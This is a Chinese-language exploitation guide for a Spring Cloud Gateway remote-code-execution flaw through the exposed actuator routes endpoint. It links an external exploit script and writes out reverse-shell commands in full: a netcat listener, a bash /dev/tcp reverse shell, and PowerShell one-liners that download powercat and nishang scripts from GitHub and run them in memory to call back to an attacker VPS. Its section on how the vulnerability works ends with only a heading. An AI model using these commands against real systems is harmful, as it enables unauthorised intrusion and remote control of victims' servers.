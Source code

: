 # SpringCloudGateway 漏洞利用

## 利用条件：

- Spring Cloud Gateway 启用和暴露 Gateway Actuator 端点
- Spring Cloud Gateway < 3.1.1
- Spring Cloud Gateway < 3.0.7

## 利用方法：

#### 步骤一：

访问页面，可以看到路由配置信息：
` http://ip:端口/actuator/gateway/routes `

#### 步骤二：

使用[脚本](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/SpringCloud%20Gateway/file/SpringCloudGateway.py)执行RCE命令

![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/SpringBoot/SpringCloud%20Gateway/img/whoami.png)

#### 步骤三：
	
反弹shell

>vps开启nc监听：
```base
nc -lvp 2333
```
目标机器cmd执行：

>linux：
```base
bash -i >& /dev/tcp/vpsIP/2333 0>&1
```
>windows：

powercat反弹：
```base
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.4 -p 2333 -e cmd
```
TCP流量，远程下载无文件落地执行：
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress vpsIP -port 2333
```
Udp流量,远程下载无文件落地执行
```base
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellUdp.ps1');Invoke-PowerShellUdp  -Reverse  -IPAddress  vpsIP -port 2333
```

## 漏洞原理：